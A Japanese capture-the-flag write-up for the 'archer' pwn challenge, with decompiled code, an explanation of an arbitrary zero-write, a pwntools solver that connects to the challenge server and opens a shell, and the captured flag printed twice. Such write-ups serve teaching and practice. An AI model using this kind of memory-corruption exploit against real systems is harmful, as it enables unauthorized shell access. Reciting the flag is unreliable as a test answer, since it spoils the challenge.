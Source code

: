 # Writeup

実行ファイルが与えられる。

```bash
$ ./archer
It's battle day archer! Have you got what it takes?
Answer [yes/no]: yes
Awesome! Make your shot.
Here's your arrow!
Now, which soldier do you wish to shoot?
hoge
[1]    28581 segmentation fault  ./archer
```

Ghidraで解析してみる。

```c
undefined8 main(void)

{
  char *pcVar1;
  char local_d [5];
  
  puts("It\'s battle day archer! Have you got what it takes?");
  printf("Answer [yes/no]: ");
  fflush(stdout);
  fgets(local_d,5,stdin);
  pcVar1 = strstr(local_d,"no");
  if (pcVar1 != (char *)0x0) {
    puts("Battle isn\'t for everyone.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Awesome! Make your shot.");
  makeshot();
  puts("Hope you shot well! This will decide the battle.");
  if (code == 0x13371337) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("WE WON!");
  fflush(stdout);
  system("/bin/sh");
  return 0;
}


void makeshot(void)

{
  undefined8 *local_10;
  
  puts("Here\'s your arrow!");
  puts("Now, which soldier do you wish to shoot?");
  fflush(stdout);
  __isoc99_scanf(&DAT_00402109,&local_10);
  local_10 = local_10 + 0xa0000;
  *local_10 = 0;
  puts("Shot!");
  return;
}
```

`makeshot`関数では、入力した値 + 0x500000 のアドレスの中身を`0`に書き換えてくれることが分かった。

```
004012c0 48 05 00        ADD        RAX,0x500000
            00 50 00

↓

local_10 = local_10 + 0xa0000;
```

これを利用して、`main`関数内の`code`変数を`0`に書き換える。

`code`変数は`0x404068`に確保されていることが分かったので、`0x404068-0x500000`の値を渡すと`code`変数が`0`に書き換えられる。

```py
from pwn import *

e = ELF('archer')
io = remote('193.57.159.27', 23258)

io.recvuntil(': ')
io.sendline('yes')
io.recvuntil('?\n')
h = str(hex(e.symbols['code']-0x500000)).replace('0x','')
io.sendline(h)
io.interactive()
```

```bash
$ python3 solver.py
[+] Opening connection to 193.57.159.27 on port 23258: Done
[*] Switching to interactive mode
Shot!
Hope you shot well! This will decide the battle.
WE WON!
$ ls
archer
flag_0a52f21b1a.txt
$ cat flag_0a52f21b1a.txt
rarctf{sw33t_sh0t!_1nt3g3r_0v3rfl0w_r0cks!_170b2820c9}
```

<!-- rarctf{sw33t_sh0t!_1nt3g3r_0v3rfl0w_r0cks!_170b2820c9} -->
